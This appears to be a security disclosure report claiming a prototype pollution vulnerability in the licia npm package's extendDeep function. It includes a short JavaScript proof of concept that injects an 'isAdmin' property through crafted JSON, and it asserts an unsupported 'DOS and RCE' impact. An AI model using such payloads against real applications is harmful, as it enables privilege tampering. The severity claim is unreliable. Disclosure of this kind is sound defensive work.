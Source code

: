 ## ✍️ Description
licia package is vulnerable to prototype pollution issue 
file can be found in  https://github.com/liriliri/licia/blob/master/src/e/extendDeep.js
## 🕵️‍♂️ Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('licia');
var src = {};
let object = utils.extendDeep({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
```
2. Execute command npm install licia
3. Execute command node poc.js
* https://drive.google.com/file/d/1Ef61xgYB6Tzq1We_OiitWUqne0H9skGe/view?usp=sharing
## 💥 Impact
Prototype pollution which could lead to DOS and RCE
## ✅ Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_
